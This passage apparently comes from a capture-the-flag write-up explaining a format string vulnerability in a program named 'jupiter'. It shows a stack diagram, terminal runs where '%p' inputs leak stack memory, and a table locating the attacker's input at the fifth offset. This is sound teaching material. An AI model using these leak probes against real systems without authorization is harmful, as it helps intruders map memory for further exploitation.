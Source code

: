 This is why in our output we see `0x7025702570257025` - it's literally our input interpreted as a number!

### 3. Stack and Parameters

When a function is called, parameters and local variables are stored on the **stack**:

```
High Addresses
┌─────────────────┐
│ Parameter 4     │
│ Parameter 3     │
│ Parameter 2     │
│ Parameter 1     │ ← Arguments to function
│ Return Address  │
├─────────────────┤
│ Local Variable 1│
│ Local Variable 2│ ← Our buffer is here
│      ...        │
└─────────────────┘
Low Addresses
```

With format string vulnerability, printf **walks up the stack** treating memory as parameters, even if no parameters were passed!

---

## Exploring the Format String Vulnerability

### Initial Testing

Let's test if we can leak stack values:

```bash
$ ./jupiter
Welcome to Jupiter's echo terminal
Enter data at your own risk: %p
0x11
```

Success! We leaked `0x11` from the stack. Let's try more:

```bash
$ ./jupiter
Enter data at your own risk: %p %p %p %p %p %p %p %p
0x11 0xc (nil) (nil) 0x7025702570257025 0x7025702570257025 0xa (nil)
```

**Analysis:**
```
Parameter | Value                  | Explanation
----------|------------------------|----------------------------------
%1$p      | 0x11                   | Existing stack data
%2$p      | 0xc                    | Existing stack data
%3$p      | (nil)                  | NULL pointer
%4$p      | (nil)                  | NULL pointer
%5$p      | 0x7025702570257025     | OUR INPUT! (%p%p%p%p in hex)
%6$p      | 0x7025702570257025     | More of our input
%7$p      | 0xa                    | Newline character we typed (\n)
%8$p      | (nil)                  | NULL/end of buffer
```
